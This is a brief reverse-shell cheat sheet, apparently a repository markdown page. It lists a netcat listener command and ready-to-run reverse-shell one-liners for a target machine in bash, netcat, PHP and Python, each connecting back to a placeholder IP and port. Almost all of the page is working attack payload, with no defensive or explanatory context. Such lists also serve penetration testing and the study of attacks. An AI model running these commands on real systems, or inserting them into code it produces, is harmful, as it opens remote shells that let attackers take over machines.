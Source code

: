 # Reverse shell

Start listening on host computer with netcat:

```bash
nc -lvnp <port>
```

General reverse shell options on target:

```bash
nc <ip> <port> -c bash
```

```bash
/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

```php
<?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<ip>/<port> 0>&1’”); phpinfo(); ?>
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

